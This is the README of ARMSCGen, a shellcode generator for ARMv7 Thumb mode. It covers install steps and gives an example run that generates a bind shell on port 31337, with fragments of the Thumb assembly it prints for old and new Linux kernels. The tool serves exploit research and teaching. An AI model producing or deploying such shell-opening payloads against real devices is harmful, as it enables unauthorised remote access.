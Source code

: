 ### Shellcodes for ARM/Thumb mode

Ideas came from [shell-storm](http://www.shell-storm.org) and [pwntools/pwnies](https://github.com/Gallopsled/pwntools).

Thanks to share all of brilliant sources on the net.

I'm interested in mobile platform and archtecture like Android on ARM, Router on MIPS and so on.

This project named ARMSCGen focus on shellcode on ARM Architecture especially ARMv7 Thumb Mode.

* updated: v0.0.20 
  - added sctest for emulating shellcodes using unicorn-engine
  - removed test code related to unicorn-engine in scgen.py

### Requirement

ARMSCGen highly depends on ``{capstone|keystone|unicorn}-engine.``

[Capstone](http://www.capstone-engine.org) is needed to disassemble codes.
Install Capstone with:

``$sudo pip install capstone``

[Keystone](http://www.keystone-engine.org) is needed to assemeble shellcodes.
Install Keystone with:

``$sudo pip install keystone-engine``

or refers to [here](http://www.keystone-engine.org/docs/)
    
[Unicorn Engine](http://www.unicorn-engine.org/) is needed to emulate shellcodes.
For installing Unicorn Engine, refers to [here](http://www.unicorn-engine.org/docs/)

### Installation

``$sudo python setup.py install``

### Usage

reads ``examples`` directory (some examples has been outdated)

and

uses ``scgen.py`` in CLI mode

### List of Shellcodes 

please refer to ``shellcodes_lists.md`` or ``scgen -l -a all``

### Notes

Some of thumb mode shellcodes have new option named ``version``.

If you'd like to test shellcodes on old kernel like 2.x then

try to use this option.  ``for example`` 

```
# linux kernel 2.4 - socketcall
$ scgen -a thumb bindshell 31337 4 2 0 -f a

/* socketcall( socket, { 2, 1, 6 } ) */
movs r1, #2
movs r2, #1
movs r3, #6
push {r1-r3}
movs r0, #1
mov  r1, sp
movs r7, #102
svc 1

# linux kernel 3.x or later
$ scgen -a thumb bindshell 31337 4 3 0 -f a

/* socket(...) */
movs r0, #2
movs r1, #1
subs r2, r2, r2
subs r7, r7, r7
adds r7, r7, #255
adds r7, r7, #26
svc 1 

```

### Documentation

(need to upgrade) URL: ``http://armscgen.readthedocs.org/`` or ``/docs/`` in source

### TODO

writes shellcodes precisely and writes docs in detail

(To be continued)
